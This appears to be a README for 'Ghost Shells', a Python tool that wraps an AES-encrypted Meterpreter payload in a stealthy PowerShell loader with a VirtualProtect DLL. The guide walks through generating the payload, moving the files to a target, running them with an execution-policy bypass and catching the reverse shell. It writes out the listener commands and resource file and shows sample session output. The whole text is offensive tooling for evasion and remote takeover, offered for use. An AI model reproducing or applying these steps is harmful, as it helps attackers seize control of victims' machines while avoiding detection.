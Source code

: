 Here's an **automated Python script** that fully implements the **Ghost Shells** technique. This script will:

1. **Generate a Meterpreter Payload** using `msfvenom`.
2. **Encrypt the shellcode using AES (CBC Mode)**.
3. **Embed the encrypted shellcode into a PowerShell script**.
4. **Automatically generate and compile `API.dll`** (for `VirtualProtect` memory modification).
5. **Create a final `execute.ps1` PowerShell script** to:
   - Load `API.dll`.
   - Decrypt the AES shellcode.
   - Allocate executable memory.
   - Execute the shellcode stealthily.

---

### **🔥 How This Works**
1. **Generates a Meterpreter Payload (`msfvenom`)**.
2. **Encrypts the shellcode using AES (CBC Mode)**.
3. **Compiles `API.dll` to modify memory protections**.
4. **Creates `execute.ps1`**, a **stealthy PowerShell script** to:
   - Load `API.dll` to use `VirtualProtect`.
   - Decrypt the AES shellcode.
   - Allocate and execute the shellcode dynamically.

---

### **💻 How to Use**
#### **Step 1: Run the Python Script**
```bash
python3 ghost_shells.py
```
#### **Step 2: Transfer `execute.ps1` and `API.dll` to the Target Machine**
```powershell
powershell -ExecutionPolicy Bypass -File execute.ps1
```
#### **Step 3: Start Metasploit Listener**
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <attacker-port>
exploit
```

---

### **📌 How the Python Script Works - Step by Step Example**
---
### **🔹 Step 1: Run the Script**
```bash
python3 ghost_shells.py
```
---
### **🔹 Step 2: The Script Will Prompt for User Input**
```bash
[+] Ghost Shells - Automated Meterpreter Deployment
[?] Enter LHOST (attacker IP): 192.168.1.100
[?] Enter LPORT (listening port): 4444
[+] Generating Meterpreter shellcode...
```
**(It will then generate a Meterpreter shellcode using `msfvenom`)**
```bash
[+] Encrypting shellcode using AES...
[+] Compiling API.dll...
[+] PowerShell script 'execute.ps1' created.
[+] Ghost Shells deployment ready!
```
---
### **🔹 Step 3: The Script Will Automatically Start a Metasploit Listener**
```bash
[+] Starting Metasploit listener...
```
The script will create a **Metasploit resource file** (`msf_listener.rc`) with the following content:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
set ExitOnSession false
exploit -j
```
Then, it **automatically starts Metasploit**:
```bash
msfconsole -r msf_listener.rc
```
---
### **🔹 Step 4: Transfer and Execute the Payload on the Target**
After the script finishes, you'll have **two files**:
- `API.dll` (used for `VirtualProtect`)
- `execute.ps1` (decrypts and executes Meterpreter shellcode)

**Now, transfer these files to the target machine and run:**
```powershell
powershell -ExecutionPolicy Bypass -File execute.ps1
```
---
### **🔹 Step 5: The Reverse Shell is Established**
Once the payload is executed, the Meterpreter session will be opened:
```bash
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.200:49627)
```
---
### **✅ Final Confirmation**
Now, you have a full **Meterpreter shell**:
```bash
meterpreter > sysinfo
Computer        : TARGET-PC
OS             : Windows 10 (10.0 Build 19044)
Meterpreter    : x64/windows
```
---
### **🔥 Automated & Hands-Free**
- **No manual setup needed!**
- **Asks for LHOST and LPORT**
- **Generates & encrypts shellcode**
- **Compiles API.dll**
- **Starts the Metasploit listener**
- **Creates a PowerShell script for execution**

### **🔹 Pre-Installed Tools Needed in Kali Linux**
To execute this **automated Ghost Shells Python script**, you need the following **tools pre-installed** in **Kali Linux**:

| **Tool**          | **Purpose** |
|-------------------|------------|
| **Metasploit Framework (`msfvenom`, `msfconsole`)** | To generate the **Meterpreter shellcode** and start a **listener** |
| **Mono (`mcs`)** | To compile `API.cs` into `API.dll` for **VirtualProtect memory modification** |
| **Python3** | To run the automation script |
| **Python Crypto (`pycryptodome`)** | To **encrypt the shellcode using AES** |
| **PowerShell (Kali)** | To test **PowerShell execution** before deploying to Windows |

---

### **🔧 Install Required Tools**
#### **1️⃣ Update and Upgrade Kali**
Run the following commands to ensure your Kali is up to date:
```bash
sudo apt update && sudo apt upgrade -y
```

#### **2️⃣ Install the Metasploit Framework**
Metasploit is **pre-installed** in Kali, but if missing, install it:
```bash
sudo apt install metasploit-framework -y
```
✅ **Verify installation**:
```bash
msfconsole --version
```

#### **3️⃣ Install `Mono` (To Compile API.dll)**
Since we use C# to compile `API.dll`, install `Mono`:
```bash
sudo apt install mono-mcs -y
```
✅ **Verify installation**:
```bash
mcs --version
```

#### **4️⃣ Install `pycryptodome` (For AES Encryption)**
The script uses Python's **Crypto module** for AES encryption. Install it using:
```bash
pip3 install pycryptodome
```
✅ **Verify installation**:
```bash
python3 -c "from Crypto.Cipher import AES; print('Crypto Installed')"
```

#### **5️⃣ (Optional) Install PowerShell in Kali**
If you want to test the **PowerShell script** in Kali before deploying to Windows, install PowerShell:
```bash
sudo apt install powershell -y
```
✅ **Run PowerShell in Kali**:
```bash
pwsh
```

---

### **✅ Final Check: Run the Script**
After installing all dependencies, run:
```bash
python3 ghost_shells.py
```
If everything is installed correctly, it should:
✔ Generate the **Meterpreter shellcode**  
✔ Encrypt the **shellcode using AES**  
✔ Compile **API.dll** using `mcs`  
✔ Start **Metasploit listener**  
✔ Generate **execute.ps1** for Windows  

---
### **🚀 You're Now Ready to Deploy Ghost Shells!**
Help me if you face any issue in the code, or correct me if anything is wrong
